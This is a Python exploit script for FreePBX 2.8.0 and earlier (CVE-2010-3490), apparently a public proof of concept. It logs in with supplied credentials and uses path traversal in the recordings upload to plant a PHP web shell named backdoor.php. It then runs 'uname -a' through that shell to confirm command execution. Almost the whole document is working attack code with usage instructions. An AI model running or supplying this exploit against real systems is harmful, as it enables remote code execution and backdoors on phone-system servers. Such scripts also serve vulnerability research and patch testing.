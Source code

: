 EXP
---

    import requests
    import random
    import string
    import sys

    # Original advisory : http://www.exploit-db.com/exploits/15098/

    print("devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)")
    if len(sys.argv) != 4:
        print("Usage: {0} <url_to_freepbx_admin_directory> <username> <password>")
        sys.exit()

    BASE = sys.argv[1]
    USER = sys.argv[2]
    PASS = sys.argv[3]
    KEYW = "devloop"

    if not BASE.endswith("/"):
        BASE += "/"

    sess = requests.session()
    creds = (USER, PASS)

    r = sess.get(BASE + "config.php", auth=creds)
    if "Logged in:" in r.content:
        print("[+] Connection successful")
    else:
        print("[!] Unable to login... check credentials and url")
        sys.exit()

    data = {
        'action': 'recorded',
        'display': 'recordings',
        'usersnum': '../../../../../var/www/html/admin/{0}'.format(KEYW),
        'rname': "".join([random.choice(string.hexdigits) for _ in xrange(10)]),
        'Submit': 'Save'
        }

    content = "<?php system($_GET['cmd']); ?>"
    files = {
            'ivrfile': ('backdoor.php', content, 'application/octet-stream')
            }
    hdrs = {"referer": BASE + "config.php?type=setup&display=recordings"}

    r = sess.post(BASE + "config.php?type=setup&display=recordings",
            data=data,
            files=files,
            auth=creds,
            headers=hdrs)

    print("[i] Testing shell at address {0}{1}-ivrrecording.php".format(BASE, KEYW))
    r = requests.get(BASE + KEYW + "-ivrrecording.php?cmd=uname+-a", auth=creds)
    if r.status_code != 200:
        print("[-] Received HTTP code {0} for this url".format(r.status_code))
    else:
        print("HTTP 200 OK")
        print r.content